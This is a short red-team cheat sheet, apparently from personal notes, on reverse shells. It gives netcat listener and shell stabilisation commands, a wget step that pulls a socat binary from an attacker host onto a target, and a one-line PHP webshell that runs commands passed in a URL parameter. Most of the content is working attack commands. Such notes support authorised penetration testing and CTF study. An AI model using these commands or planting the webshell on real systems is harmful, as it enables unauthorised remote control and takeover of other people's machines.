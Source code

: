 ```yaml
---
category:
  - redteam
---
```

!!! info "Info"
	"Reverse shells _allow attackers to open ports to the target machines, forcing communication and_ enabling a complete takeover of the target machine." -[Imperva](https://www.imperva.com/learn/application-security/reverse-shell/)
## Stabilization
Basic: `python3 -c 'import pty;pty.spawn("/bin/bash")'`
`script /dev/null -c bash`
### TTY Size
In second terminal window, get rows & columns with `stty -a`, then set them in the remote shell with `stty {rows|cols} <number>`

### Netcat
Rlwrap: `rlwrap nc -lvnp <port>`
If Python is available:
```bash
sudo nc -lvnp 1234  # listen for connections on port 1234
python -c 'import pty;pty.spawn("/bin/bash")'   # start bash
export TERM=xterm
[Ctrl+Z]    # background the session
stty raw -echo; fg     # Stabilze and foreground the shell
```
[Netcat for Windows](https://github.com/int0x33/nc.exe)
### Socat
If Python is available:
```
# Start Python webserver on local machine
sudo python3 -m http.server 80
# Get a netcat shell
sudo nc -lvnp <port> 
# Download socat compiled binary to target machine
wget \<local IP>/socat -O /tmp/socat
```

## Basic Webshell
```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```
See `/usr/share/webshells` on Kali

- [BlackArch Webshells](https://github.com/BlackArch/webshells)
